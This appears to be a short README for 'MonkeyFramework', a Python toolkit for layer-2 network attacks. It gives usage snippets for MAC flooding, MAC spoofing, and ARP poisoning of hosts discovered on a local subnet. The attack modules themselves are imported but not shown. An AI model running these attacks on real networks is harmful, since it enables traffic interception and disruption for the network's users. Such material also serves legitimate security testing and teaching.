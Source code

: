 # MonkeyFramework

### MAC Flooding
```
from attack.leyer_2.mac import mac_flooding
mac_flooding('wlp3s0')
```
### MAC Spoofing
```
from attack.leyer_2.mac import mac_spoofing
mac_spoofing('wlp3s0', '92:92:92:92:92:92')
```

### ARP POISONING
```
from discover.arp_discover import arp_discover
from attack.leyer_2.arp import arp_poisoning

for host in arp_discover(ip_addr='192.168.1.1'):
    arp_poisoning('192.168.1.11', '80:45:dd:93:95:31', host.ip, host.mac)
```